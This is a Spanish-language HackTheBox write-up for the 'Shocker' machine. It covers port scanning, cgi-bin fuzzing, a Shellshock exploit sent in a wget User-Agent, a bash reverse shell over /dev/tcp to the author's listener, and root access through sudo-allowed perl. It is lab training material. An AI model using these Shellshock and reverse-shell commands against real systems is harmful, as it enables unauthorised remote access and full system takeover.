 ```yaml
---
title: "Shocker - HTB Writeup"
layout: single
excerpt: "Shocker es una máquina de dificultad fácil de HackTheBox. Como el nombre de la máquina indica, se obtiene acceso a la máquina mediante la vulnerabilidad shellshock, para luego escalar privilegios abusando de un privilegio de sudoers que permite ejecutar perl como usuario root."
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/67548295/126992433-efd2ea6c-4892-433f-86e7-8f19e31063ac.png"
  teaser_home_page: true
  icon: "assets/images/icons/HackTheBox-icon.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - ShellShock
  - Perl
  - Sudo
---
```



![titulo](https://user-images.githubusercontent.com/67548295/124353510-76699200-dbf6-11eb-81f4-54547de662d1.png)


# Enumeración

Primero, antes de empezar a escanear puertos y todo lo demás, voy a lanzar una traza ICMP con ```ping``` para ver si la máquina está activa:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $ping -c 1 10.10.10.56
PING 10.10.10.56 (10.10.10.56) 56(84) bytes of data.
64 bytes from 10.10.10.56: icmp_seq=1 ttl=63 time=69.3 ms

--- 10.10.10.56 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 69.344/69.344/69.344/0.000 ms
```

La máquina nos contesta, quiere decir que está activa, y además mediante el TTL puedo ver que es una máquina con OS Linux.

Más información sobre la deteccion de OS mediante TTL [aquí](https://subinsb.com/default-device-ttl-values/){:target="\_blank"}{:rel="noopener nofollow"}.

También puedes hacer uso de mi herramienta [OSidentifier](https://github.com/z3robyte/OSidentifier){:target="\_blank"}{:rel="noopener nofollow"}.

# Nmap

Comenzamos con el escaneo de puertos:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $nmap --open -n -T5 10.10.10.56 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 13:11 WEST
Nmap scan report for 10.10.10.56
Host is up (0.071s latency).
Not shown: 691 closed ports, 307 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```

Podemos ver que tenemos el puerto 2222 y 80:
* 80 --> HTTP
* 2222 --> SSH

# User

Vamos a ver lo que hay en el servidor web que hay por el puerto 80:

![navegador1](https://user-images.githubusercontent.com/67548295/124353831-6baffc80-dbf8-11eb-8a89-943741d1ca3a.png)

Y podemos ver que solo hay una simple imagen.

Después de esto, hago uso de la herramienta ```wfuzz``` para enumerar directorios en la web:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wfuzz -c --hc=404 -w /usr/share/dirb/wordlists/big.txt -u "http://10.10.10.56/FUZZ" -t 50

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/FUZZ
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000016:   403        11 L     32 W       295 Ch      ".htpasswd"                                                                                                               
000000015:   403        11 L     32 W       295 Ch      ".htaccess"                                                                                                               
000004349:   403        11 L     32 W       294 Ch      "cgi-bin/"                                                                                                                
```
Y vemos que hay un directorio cgi-bin. Seguidamente pruebo a fuzzear en ese directorio en busca de archivos con extensiones comunes.

Ya que si hay archivos y la version de bash es vulnerable, podriamos aprovecharnos de la vulnerabilidad ShellShock para ganar acceso al sistema.

ShellShock es una vulnerabilidad descubierta en 2014 que permite ejecutar codigo de forma remota en la maquina de la victima, [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271){:target="\_blank"}{:rel="noopener nofollow"}

Esta vulnerabilidad es posible porque porque bash permite declarar funciones, pero estas no se validan de forma correcta cuando se almacenan en una variable.

Sabiendo esto, fuzzeo por esa ruta encontrada: 

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $gobuster dir -u "http://10.10.10.56/cgi-bin/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,sh,py
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,sh,py
[+] Timeout:        10s
===============================================================
2021/07/03 13:46:57 Starting gobuster
===============================================================
/user.sh (Status: 200)
```
Hay un script con nombre _user.sh_, lo descargo pero no hay nada interesante en el.

Pruebo a ver si es vulnerable a la vulnerabilidad ShellShock:

```bash
|─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "ping -c 1 10.10.16.15"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:54:39--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 500 Internal Server Error
2021-07-03 13:54:40 ERROR 500: Internal Server Error.
```

Ahi he probado a mandarme una traza icmp a mi maquina mientras estaba en escucha con ```tcpdump```
y me ha llegado la petición:

```bash
┌──[z3r0byte@z3r0byte]─[~]
└──╼ $sudo tcpdump -i tun0 icmp
 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:54:40.138435 IP 10.10.10.56 > 10.10.16.15: ICMP echo request, id 13628, seq 1, length 64
13:54:40.138492 IP 10.10.16.15 > 10.10.10.56: ICMP echo reply, id 13628, seq 1, length 64

```

Pues bueno, ya teniendo ejecución remota de comandos, es muy sencillo ganar acceso al sistema.

Una simple reverse shell en bash sirve:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.15/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:59:05--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 
```
Hacemos la petición a la vez que estamos en escucha por el puerto especificado en la reverse shell.

Y obtenemos acceso al sistema:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.56 42136
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

A partir de aqui podemos ver la flag del user:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt

cf33XXXXXXXXXXXXXXXXXXXXd5c573fd

shelly@Shocker:/usr/lib/cgi-bin$
```

# Privilege Escalation

Enumerando el sistema en busca de un vector para escalar privilegios, me encuentro que podemos ejecutar ```perl``` como el usuario root:

```bash
shelly@Shocker:/$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/$ 
```
Hago uso de la utilidad [GTFObins](https://gtfobins.github.io/){:target="\_blank"}{:rel="noopener nofollow"} para spawnear una bash con perl:

![navegador2](https://user-images.githubusercontent.com/67548295/124355337-1546bc00-dc00-11eb-87aa-a0b3d8374d22.png)

Como se puede ver, podemos generar una shell con ese comando. Como podemos correr perl como root, ya podemos rootear la maquina:

```bash
shelly@Shocker:/$ sudo /usr/bin/perl -e 'exec "/bin/sh";'

# id

uid=0(root) gid=0(root) groups=0(root)
```

Y listo, máquina rooteada. En /root/ podremos ver la flag de root:

```bash
# cat /root/root.txt

2eb63e9XXXXXXXXXXXXXXXXXXXX90d45
```

# Opinión

La máquina ha sido bastante facil, pero a la vez me ha permitido repasar conceptos, me ha gustado.




